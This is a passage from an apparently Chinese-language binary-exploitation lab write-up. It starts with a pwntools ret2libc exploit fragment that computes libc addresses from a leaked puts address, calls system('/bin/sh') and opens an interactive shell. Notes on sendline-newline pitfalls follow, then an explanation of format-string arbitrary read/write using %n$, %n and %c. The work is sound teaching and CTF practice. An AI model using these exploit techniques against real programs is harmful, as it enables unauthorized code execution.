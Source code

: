 ```python
system_off = libc.symbols['system']
bin_sh_off = libc.search('/bin/sh').next()
libc_addr = puts_addr - puts_off
system_addr = libc_addr + system_off
bin_sh = libc_addr + bin_sh_off

#buf2
p = p32(buf1)
p += p32(system_addr)
p += p32(0xdeadbeef)
p += p32(bin_sh)
r.send(p)

r.interactive()
```



## 坑点1

栈溢出调用read，想调试下，看看read是否管用。但是奈何怎么调试，都无法从stdin中输入。代码逻辑也没写错啊。

![image-20220813232447171](/assets/img/2022/image-20220813232447171.png)

然后发现pwntools中直接继续send数据，是OK的

![image-20220813232730218](/assets/img/2022/image-20220813232730218.png)

![image-20220813232805554](/assets/img/2022/image-20220813232805554.png)

![image-20220813232819804](/assets/img/2022/image-20220813232819804.png)

>TM的，破案了。也就是坑点2的关系，之前是用的sendline，习惯性用sendline了。多传的那个\n变成输入了

## 坑点2

如上图，![image-20220813232846638](/assets/img/2022/image-20220813232846638.png)

如果用sendline，会多一个/n。。。不多说了，调试下就知道。。

# lab7

3个format string attck的题，格式化字符串认知还比较浅，边做边学习。

> 格式化字符串利用的本质：达成任意地址的读写
>
> 要达成格式化字符串利用，有两个关键：
>
> 1、找到`printf(&buf)`中这个buf是printf的第几个参数，在32位程序下，参数都是放在栈上，所以从栈顶esp开始算起，buf的地址是在栈上的第几个。在64位程序下，前6个参数在寄存器上，所以栈上的参数是从第7个开始。
>
> ​	要知道这个buf是第几个参数的原因是，可以知道我们后续要填入的目标地址（一般是地址）是第几个参数（从buf到要填入的地址 有时候需要padding），然后配合第二条，就可以向目标地址读或者写
>
> 2、利用`%n$`，表示是printf的第n+1个参数，可以精确控制到stack上的某个地址，（理解下上一步计算目标地址是第几个参数）   使用`%p`、`%s`等实现读，使用`%c`、`%n` 实现写
